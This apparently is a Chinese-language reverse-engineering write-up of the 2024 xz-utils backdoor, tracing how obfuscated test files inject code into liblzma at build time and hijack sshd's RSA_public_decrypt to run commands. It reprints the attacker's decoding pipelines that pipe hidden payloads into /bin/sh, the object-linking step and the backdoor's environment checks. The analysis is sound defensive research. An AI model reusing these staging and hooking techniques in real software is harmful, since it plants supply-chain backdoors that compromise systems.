




## xz-utils后门代码分析

Time: 2024.04.22  
Tags: 逆向分析,恶意软件  


### 0x00 前言

[xz-utils](https://github.com/tukaani-project/xz) 是一种使用 LZMA 算法的数据压缩/解压工具，文件后缀名通常为 `*.xz`，是 Linux 下广泛使用的压缩格式之一。

2024.03.29 由微软工程师 Andres Freund 披露了开源项目 xz-utils 存在的[后门漏洞](https://www.openwall.com/lists/oss-security/2024/03/29/4)，漏洞编号为 [CVE-2024-3094](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-3094)，其通过供应链攻击的方式劫持 sshd 服务的身份认证逻辑，从而实现认证绕过和远程命令执行，该后门涉及 liblzma.so 版本为 5.6.0 和 5.6.1，[影响范围](https://mp.weixin.qq.com/s/CFuqNN36M9DgO1FAGVy5GA)包括 Debian、Ubuntu、Fedora、CentOS、RedHat、OpenSUSE 等多个主流 Linux 发行版，具体影响版本主要是以上发行版的测试版本和实验版本。

截止本文发布，距离 xz-utils 后门披露已经过去三个星期了，全球安全研究人员在互联网上发布了大量的高质量[分析报告](#references)，这帮助我们对 xz-utils 后门事件进行详尽的理解。本文将从这些分析报告出发，对其进行翻译、整理和复现，并围绕着 xz-utils 后门代码部分进行分析研究，了解攻击者的技术方案和实施细节，从而在防御角度提供一定的技术支持。

本文实验环境
```
Debian 12 x64
xz-utils/liblzma.so 5.6.1
IDA / GDB
```

### 0x01 xz-utils后门概要
xz-utils 源代码托管在 [Github](https://github.com/tukaani-project/xz) 上，根据后门相关代码的提交记录可以定位攻击者是 Github 用户 [JiaT75](https://github.com/JiaT75)，其花费了近两年时间潜伏在 xz-utils 项目中，不断的为该项目[贡献代码](https://github.com/tukaani-project/xz/commits?author=JiaT75)(最早可追溯到2022.02.07第一次提交代码)，最终获得 xz-utils 仓库的直接维护权限，为构建后门打下了基础。

攻击者将后门目标瞄准了 sshd 服务，这能使后门在具备隐蔽性的同时产生更大的攻击效益，不过默认情况下 sshd 服务和 xz-utils 并没有联系；部分 Linux 发行版([以Debian为例]((https://packages.debian.org/trixie/openssh-server)))在 `openssh-server` 中引入了 `libsystemd0` 依赖，用于 sshd 进程和守护进程 systemd 进行通信，而 `libsystemd0` 依赖了 `liblzma5`，于是构建后门拥有了一条可行路径，如下：
<div align="center">

</br>[1.sshd间接依赖liblzma5]
</div>

在 sshd 服务的「证书验证」身份认证逻辑中，其关键函数 `RSA_public_decrypt()*` 会使用公钥对用户发送的数据进行签名验证，签名验证成功则表示身份认证成功；攻击者则通过 liblzma5 实现对 `RSA_public_decrypt()*` 函数的劫持替换，在替换的函数中内置了自己的公钥，并在认证成功后提供了命令用于执行功能，以此方式实现了后门，如下：
<div align="center">

</br>[2.RSA_public_decrypt()身份认证函数]
</div>

攻击者为了实现对 `RSA_public_decrypt()*` 函数的劫持替换，同时保持整个过程的隐蔽性和后门的兼容性，使用了非常复杂的实施方案，具体实施过程可大致分为三个环节：
1. liblzma5编译环节：攻击者将后门代码隐藏在 xz-utils 源码中，并修改编译脚本，在编译时将后门代码添加到 `liblzma5.so` 库中；
2. sshd启动环节：sshd启动时将间接加载 `liblzma5.so` 库，通过 IFUNC 和 rtdl-audit 机制实现对 `RSA_public_decrypt()*` 函数的劫持替换；
3. `RSA_public_decrypt()*`后门生效环节：攻击者使用私钥签名证书，使用证书连接 sshd 服务进行身份认证，触发 `RSA_public_decrypt()*` 后门代码；

实施过程如下：
<div align="center">

</br>[3.后门植入的实施概要]
</div>

下文我们将着重分析这三个环节的具体实施过程。

### 0x02 分析环境配置
首先我们搭建分析环境，由于 xz-utils 后门事件披露后各 Linux 发行版为降低影响范围对 xz-utils/liblzma.so 进行了版本回退，以及攻击者只在 tarball 中分发包含后门代码的项目源码(即与 Github 项目主页的代码不一致，增加后门代码的隐蔽性)，因此我们需要在下游发行版指定 commit 才能获取包含后门代码的源代码([xz-utils-debian](https://salsa.debian.org/debian/xz-utils/-/tree/46cb28adbbfb8f50a10704c1b86f107d077878e6))，或者通过 [web-archive](https://web.archive.org/web/*/https://github.com/tukaani-project/xz/releases/download/*) 下载 xz-utils 的 tarball 源代码。

下载并解压源码后，使用如下命令编译 xz-utils 项目：
```
# [xz-utils] source directory
$ ./configure
$ make
```

编译成功后会生成 `[src]/src/liblzma/.libs/liblzma.so.5.6.1` 目标二进制文件，包含后门代码的 liblzma5.so 其尺寸要明显大于正常版本，如下：
<div align="center">

</br>[4.编译liblzma5.so以及比较]
</div>

### 0x03 编译脚本环节
攻击者将后门代码隐藏在 xz-utils 源码中，通过控制编译脚本的运行，实现在源码编译过程中将后门代码植入到 `liblzma5.so` 库中，这是后门植入的入口点，也是代码层面整个攻击流程的起点。流程示意图如下：
<div align="center">

</br>[5.编译脚本环节流程图]
</div>

**1.build-to-host.m4**  
首先我们关注后门编译脚本 `[src]/m4/build-to-host.m4` [文件](./build-to-host.m4)，这是 m4 宏文件，其将随着 `configure && make` 命令进行宏展开并执行，`AC_DEFUN(gl_BUILD_TO_HOST_INIT)` 的代码将最先被执行，如下：
<div align="center">

</br>[6.build-to-host脚本查找后门文件]
</div>

这里通过 `grep` 命令查找文件内容符合 `#{4}[[:alnum:]]{5}#{4}$` 特征的后门文件，即 `[src]/tests/files/bad-3-corrupt_lzma2.xz`，测试执行如下：
<div align="center">

</br>[7.查找bad-3-corrupt_lzma2.xz后门文件]
</div>

**2.bad-3-corrupt_lzma2.xz**  
随后执行 `AC_DEFUN(gl_BUILD_TO_HOST)` 的代码，这里先对系统环境进行检查和适配，随后从 `bad-3-corrupt_lzma2.xz` [后门文件](./bad-3-corrupt_lzma2.xz)中提取文件内容，关键代码如下：
<div align="center">

</br>[8.bad-3-corrupt_lzma2.xz提取内容]
</div>

结合上下文，该行代码实际执行如下，使用 `sed` 命令读取 `bad-3-corrupt_lzma2.xz` 文件内容，使用 `tr` 命令按 `[\t -_]=>[ \t_-]` 的对应关系进行字符替换，随后使用 `xz` 命令进行解压：
```
sed "r\n" bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d
```

解压后将获得 bash 脚本文件[helloworld.sh](./helloworld.sh)，其内容如下：
<div align="center">

</br>[9.bad-3-corrupt_lzma2.xz提取的脚本]
</div>

这里使用了 `AC_CONFIG_COMMANDS` 注册了 `build-to-host` 命令，后续调用该命令时就会执行 `eval $gl_config_gt` 代码，即 `helloworld.sh` 脚本文件。

**3.good-large_compressed.lzma**  
`helloworld.sh` 脚本同样先对环境进行了检查，随后使用 `xz` 命令解压 `[src]/tests/files/good-large_compressed.lzma` [后门文件](./good-large_compressed.lzma)，使用 `head` 和 `tail` 命令截取文件内容，再次使用 `tr` 命令对内容进行字符替换，最后使用 `xz` 命令对嵌套的文件进行解压，整理后的关键命令如下：
```
xz -dc $srcdir/tests/files/good-large_compressed.lzma |
eval $i |
tail -c +31233 |
tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377") |
xz -F raw --lzma1 -dc |
/bin/sh
```

此处通过 `xz -F raw --lzma1 -dc` 命令解压将得到新的 bash 脚本文件[decompressed.sh](./decompressed.sh)。

**4.decompressed.sh**  
`decompressed.sh` 这个脚本的代码较长，大多为环境检查和兼容性调整，最关键的代码有三段，第一段代码如下：
<div align="center">

</br>[10.decompressed.sh脚本grep预埋代码]
</div>

依然是熟悉的操作，使用 `grep` 在源代码文件夹中寻找匹配规则的文件内容，通过 `cut` 命令截取内容，通过 `tr` 命令按字符替换，最后使用 `xz` 命令解压。但在源代码文件夹中我们没有发现符合规则的文件，这可能是攻击者为后续攻击预埋的代码。

>脚本中 `grep -broaF 'jV!.^%' $top_srcdir/tests/files/ 2>/dev/null` 处代码同理。

**5.liblzma_la-crc64-fast.o**  
第二段代码生成了目标二进制文件 `liblzma_la-crc64-fast.o` 如下：
<div align="center">

</br>[11.decompressed.sh脚本生成liblzma_la-crc64-fast.o]
</div>

此处 `$p=good-large_compressed.lzma`，`$i` 为上文中的 `head` 命令截取文件内容的代码，对截取的内容再通过 RC4 解密获得压缩文件，通过 `xz` 命令解压最终获得[目标二进制文件](./liblzma_la-crc64-fast.o) `liblzma_la-crc64-fast.o`，如下：
<div align="center">

</br>[12.liblzma_la-crc64-fast.o文件信息]
</div>

**6.crc64_fast.c**  
第三段代码则对源码 `crc64_fast.c` 进行了修改，将后门的入口代码添加在此处，如下：
<div align="center">

</br>[13.decompressed.sh脚本修改crc64_fast.c源码]
</div>

>这里 `crc32_fast.c` 为了保证更好的兼容性，不再进行赘述。

通过 `diff` 命令来查看 `crc64_fast.c` 源码的[修改](./crc64_fast.c.patch)，如下：
<div align="center">

</br>[14.修改crc64_fast.c源码]
</div>

对比代码可以看到攻击者使用 `_is_arch_extension_supported()` 替换了原始函数 `is_arch_extension_supported()`，在内联函数 `_is_arch_extension_supported()` 中调用了外部函数 `_get_cpuid()`。

而外部函数 `_get_cpuid()` 正隐藏在 `liblzma_la-crc64-fast.o` 中，攻击者使用如下编译命令，将后门二进制文件 `liblzma_la-crc64-fast.o` 和修改后的 `crc64_fast.c` 源码编译进原本的 `liblzma_la-crc64_fast.o` [目标文件](./liblzma_la-crc64_fast.o)中(注意下划线的微小差异)：
```
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null
```

对比正常版本下的 `liblzma_la-crc64_fast.o`，我们可以发现明显大小差异：
<div align="center">

</br>[15.liblzma_la-crc64_fast.o比较]
</div>

而随后包含后门代码的 `liblzma_la-crc64_fast.o` 将自然而然的被编译链接到[库文件](./liblzma.so.5) `liblzma5.so` 中，完成后门的植入工作。

### 0x04 sshd启动环节
sshd 服务启动时将间接加载 `liblzma5.so` 库，通过 IFUNC 和 rtdl-audit 机制实现对 `RSA_public_decrypt()*` 函数的劫持替换，这是后门执行的入口点。流程示意图如下：
<div align="center">

</br>[16.sshd启动环节流程图]
</div>

我们可以使用 `LD_PRELOAD/LD_LIBRARY_PATH` 来指定 sshd 加载恶意的 `liblzma5.so` 库，由于后门代码还对环境变量进行了检查，我们还需要使用 `env -i` 清空环境变量；完整的动态调试执行命令如下：
```
# cp xz-utils-5.6.1/src/liblzma/.libs/liblzma.so.5.6.1 liblzma.so.5
$ su root
$ env -i LD_LIBRARY_PATH=/home/debian/xz/ /usr/sbin/sshd -D -p 2222
```

>此处注意 `LD_LIBRARY_PATH` 需要使用绝对路径，避免子进程无法找到指定的恶意 `liblzma.so.5`。

执行如下：
<div align="center">

</br>[17.动态调试加载恶意liblzma.so]
</div>

<!--
GDB 调试命令参考如下：
```
# su root
$ gdb /usr/sbin/sshd
unset env
set exec-wrapper env "LD_LIBRARY_PATH=/home/debian/xz/"
set args -D -p 2222
run
```
-->

**1.IFUNC函数**  
通过上文后门植入的过程分析，我们可以看到后门执行的入口点位于 `crc64_fast.c` 的 `crc64_resolve()` 函数下，后门代码如下：
```
......
lzma_resolver_attributes
static crc64_func_type
crc64_resolve(void)
{
return _is_arch_extension_supported()
			? &crc64_arch_optimized : &crc64_generic;
}
......
#ifdef CRC_USE_IFUNC
extern LZMA_API(uint64_t)
lzma_crc64(const uint8_t *buf, size_t size, uint64_t crc)
		__attribute__((__ifunc__("crc64_resolve")));
#else
......
```

`lzma_crc64()` 是一个指向 `crc64_resolve()` 的 [IFUNC](https://sourceware.org/glibc/wiki/GNU_IFUNC) 函数，IFUNC 是一种动态函数的实现方案，由动态加载器调用并绑定具体的函数，这个时机甚至早于 GDB 的 `catch load` 异常断点，无法通过常规断点动态调试此处代码逻辑。

这里通过二进制补丁的方式打断点，使用 `objdump -D liblzma.so.5 | grep crc64_resolve` 找到函数偏移，修改函数的第一个字节为 `0xCC` 从而打下断点，其函数调用栈如下：
<div align="center">

</br>[18.IFUNC-crc64_resolve函数调用栈]
</div>

>GDB 调试断在此处后，需要手动使用 `set {char}0x7ffff74a2ea0=0x55, set $rip=0x7ffff74a2ea0` 命令恢复原始指令 `push ebp` 和重置 `$rip`，随后才可以进行正常调试。

在 IDA 中分析 `crc64_resolve()` 函数，也就是 `lzma_crc64()` 函数，其中 `get_cpuid()` 即是后门代码的入口调用点，如下：
<div align="center">

</br>[19.lzma_crc64函数代码]
</div>

逐步跟入 `get_cpuid()` 函数至 `sub_4764()`，该函数使用 GOT 表重写的方式修改了 `cpuid()` 函数地址，这里调用 `cpuid()` 实际调用了 `sub_21240()/backdoor_init_stage2()` 函数，为静态分析制造了一定的难度，如下：
<div align="center">

</br>[20.sub_4764函数代码]
</div>

**2.backdoor_init_stage2**  
在 IDA 中跳到 `sub_21240()/backdoor_init_stage2()` 函数，其关键代码片段如下：
<div align="center">

</br>[21.backdoor_init_stage2函数代码]
</div>

其中 `sub_12020()/backdoor_vtbl_init()` 用于后门初始化全局函数调用表，如下：
<div align="center">

</br>[22.backdoor_vtbl_init函数代码]
</div>

`sub_21C90()/parse_elf_init()` 则是后门初始化的主函数，主要通过解析 ELF 文件格式找到目标函数进行劫持替换(因为此处函数代码调用处于 IFUNC 的调用生命周期中，导入导出表都还没有加载)；该函数代码量较大，我们找几处关键点进行分析。

**3.check_conditions**  
首先跟入 `sub_12E00()` 其内部调用 `sub_12920()/check_conditions()` 函数进行运行环境进行检查，首先检查进程名是否为 `/usr/sbin/sshd`，随后对环境变量进行检查，如下：
<div align="center">

</br>[23.check_conditions函数代码]
</div>

通过分析 `trie_getkey()` 表项数据，这里检查了环境变量不能包含以下项：
```
DISPLAY=
LD_AUDIT=
LD_BIND_NOT=
LD_DEBUG=
LD_PROFILE=
LD_USE_LOAD_BIAS=
LINES=
TERM=
WAYLAND_DISPLAY=
yolAbejyiejuvnup=Evjtgvsh5okmkAvj
```

**4.process_shared_libraries_map**  
随后跟入 `sub_16590()` 其内部调用 `sub_149B0()/process_shared_libraries_map()` 函数解析目标 so 库的基地址，如下：
<div align="center">

</br>[24.process_shared_libraries_map函数代码]
</div>

其解析的 so 库按序如下：
```
sshd
ld-linux-x86-64.so
liblzma.so
libcrypto.so
libsystemd.so
libc.so
```

**5.注册rtld-audit**  
后续代码则根据 so 库再进一步解析目标函数的地址。更为关键的代码在 `sub_21240()/backdoor_init_stage2()+0x207c` 处，这里通过构造 `audit_ifaces` [结构体](https://elixir.bootlin.com/glibc/latest/source/sysdeps/generic/ldsodefs.h#L237)向动态装载器(`ld.so`)手动注册审计函数 `symbind64()`，如下：
<div align="center">

</br>[25.构造audit_ifaces结构体注册审计函数]
</div>

`symbind64()` 将在动态加载器(`ld.so`)每次装载导出函数时被调用，攻击者则瞄准这个时机实现对目标函数的劫持替换，除此之外 `LD_AUDIT` 的执行时机早于 `LD_PRELOAD`，能够绕过部分安全检测机制。

>这实际使用了 [rtld-audit](https://man7.org/linux/man-pages/man7/rtld-audit.7.html) 机制，等价于在常规开发中的编写审计功能库，定义并实现 `la_symbind64` 函数，常规使用环境变量进行加载如 `LD_AUDIT=./audit.so ./test`。

按照如上分析，我们动态调试在 `sub_ABB0()/install_hook()` 函数处打下断点，此时函数调用栈如下：
<div align="center">

</br>[26.rtld-audit调用流程中的install_hook函数]
</div>

>由于 rtld-audit 机制被调用时也非常早，这里我们很难打下断点，比较简单的方式是在未开启地址随机化的情况下，先运行一次程序，然后按照 `sub_ABB0()` 函数的偏移地址使用 `hbreak` 打下硬件断点，重新运行即可断下。

**6.install_hook**  
跟入 `sub_ABB0()/install_hook()` 函数，其通过 `trie_getkey()` 比较当前函数名称是否为目标函数，若匹配则使用 hook 函数对其进行替换，如下：
<div align="center">

</br>[27.install_hook函数对目标函数进行hook]
</div>

攻击者在这里设置了三个 hook 函数来提高成功率如下，其中任一函数 hook 成功后则退出，并调用 `sub_CFA0()` 清理 rtld-audit 的痕迹。
```
RSA_public_decrypt()
EVP_PKEY_set1_RSA()
RSA_get0_key()
```

到这里攻击者就实现了对认证函数的劫持替换，完成了后门代码的安装工作。

### 0x05 后门代码执行环节
攻击者虽然设置的三个 hook 函数，但由于 `RSA_public_decrypt()` 在 `libcrypto.so` 中最靠前，所以优先级最高，本文我们主要分析 `RSA_public_decrypt_hook()` 的代码。该环节的流程示意图如下：
<div align="center">

</br>[28.后门代码执行环节流程图]
</div>

`RSA_public_decrypt()` 函数位于 sshd 服务身份认证的证书认证流程中，我们可以使用 `ssh-keygen` 命令生成并签名一个证书用于测试：
```
# 生成 test_ca 公私钥
ssh-keygen -t rsa -b 4096 -f test_ca -C test_ca
# 生成 user_key 公私钥
ssh-keygen -t rsa -b 4096 -f user_key -C user_key
# 使用 test_ca 对 user_key 生成证书
ssh-keygen -s test_ca -I test@test.com -n test-user -V +52w user_key.pub
# 查看证书信息
ssh-keygen -L -f user_key-cert.pub
# 使用证书连接服务器进行认证
ssh -i user_key-cert.pub debian@10.0.25.194 -p 2222
```

>ssh的三种身份认证：1.密码认证 2.公私钥认证 3.证书认证

使用 GDB 在 `sub_164B0()/RSA_public_decrypt_hook()` 处打下断点，ssh 客户端使用证书认证连接服务器，此时调用栈如下：
<div align="center">

</br>[29.RSA_public_decrypt_hook函数调用栈]
</div>

<!--
GDB 调试命令参考如下：
```
# su root
$ gdb /usr/sbin/sshd
unset env
set exec-wrapper env "LD_LIBRARY_PATH=/home/debian/xz/"
set args -D -p 2222
run
^Ctrl-C

# 查询 liblzma.so.5 的基地址
vmmap
# 在此处 sshd 子进程无法设置软件断点，这可能和 sshd 进程模型有关系
# 使用硬件断点 RSA_public_decrypt_hook()
hbreak *[base]+0x164B0
continue

# 以上也可以使用 attach 的方式进行
```
-->

跟入 `sub_164B0()/RSA_public_decrypt_hook()` 的代码，关键代码为调用后门主函数代码 `sub_16710()/hook_main()`，随后根据后门代码的执行结果，按需执行原始的 `RSA_public_decrypt()` 函数，回归正常的身份认证逻辑，如下：
<div align="center">

</br>[30.RSA_public_decrypt_hook函数代码]
</div>

在 `sub_16710()/hook_main()` 函数中，首先从认证报文中提取密钥 n，e 等信息并对报文结构进行检查，如下检查协议报文 magic number 计算结果小于等于 3，这也是攻击命令的取值:
<div align="center">

</br>[31.hook_main函数检查报文magic number]
</div>

随后调用 `sub_23650()/decrypt_ed448_public_key()` 函数获取内置在后门代码中的 `public-key` 公钥，公钥在其内部使用 `chacha20` 加密隐藏，这里进行解密：
<div align="center">

</br>[32.decrypt_ed448_public_key函数代码]
</div>

此处解密后的 ED448 公钥内容为：
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
10 0c b0 6c 3a be 14 ee 89 55 d2 45 00 c7 7f 6e
20 d3 2c 60 2b 2c 6d 31 00
```

>后门代码中多处使用 chacha20 解密，其 `key` 和 `iv` 根据相关上下文进行确定。

随后调用 `sub_14320()/verify_ed448_signature()` 使用公钥对签名进行验证：
<div align="center">

</br>[33.调用verify_ed448_signature进行签名验证]
</div>

通过签名验证后还会进行复杂的检查条件，最终在 `sub_16710()/hook_main()+0xb75` 处调用 `system()` 执行命令：
<div align="center">

</br>[34.调用system执行命令]
</div>

### 0x06 总结
在本文中，我们围绕着 xz-utils 后门代码的整个生命周期进行分析研究，沿着后门代码的执行路径，从 `liblzma.so` 的编译阶段到 `sshd` 服务的启动阶段，分别复现了其后门的植入和安装工程，随后从后门关键函数 `RSA_public_decrypt()` 入手，分析了后门代码的执行流程和攻击意图。

通过以上 xz-utils 的后门代码分析可以看到攻击者具有高水平的技术能力，而这仍是管中窥豹，我们仅仅只是对后门代码的主流程进行分析研究，根据互联网上的多份技术报告剖析，攻击者在代码混淆、反调试、sshd日志隐藏、反汇编引擎等方面，也精心进行设计和实现；同时在代码之外攻击者也表现得非常专业，精心挑选攻击目标，再通过长期的潜伏、伪装获得信任，最终获得代码仓库的权限。而这些方方面面都还值得我们进一步的挖掘和研究。

### 0x07 References
https://github.com/tukaani-project/xz  
https://www.openwall.com/lists/oss-security/2024/03/29/4  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-3094  
https://mp.weixin.qq.com/s/CFuqNN36M9DgO1FAGVy5GA  
https://github.com/JiaT75  
https://github.com/tukaani-project/xz/commits?author=JiaT75  
https://packages.debian.org/trixie/openssh-server  
https://salsa.debian.org/debian/xz-utils/-/tree/46cb28adbbfb8f50a10704c1b86f107d077878e6  
https://web.archive.org/web/*/https://github.com/tukaani-project/xz/releases/download/*  
https://sourceware.org/glibc/wiki/GNU_IFUNC  
https://www.agner.org/optimize/blog/read.php?i=167  
https://gist.github.com/q3k/3fadc5ce7b8001d550cf553cfdc09752  
https://elixir.bootlin.com/glibc/latest/source/sysdeps/generic/ldsodefs.h#L237  
https://man7.org/linux/man-pages/man7/rtld-audit.7.html  
https://gynvael.coldwind.pl/?lang=en&id=782  
https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504  
https://github.com/luvletter2333/xz-backdoor-analysis  
https://securelist.com/xz-backdoor-story-part-1/112354/  
https://github.com/binarly-io/binary-risk-intelligence/tree/master/xz-backdoor  
https://github.com/amlweems/xzbot  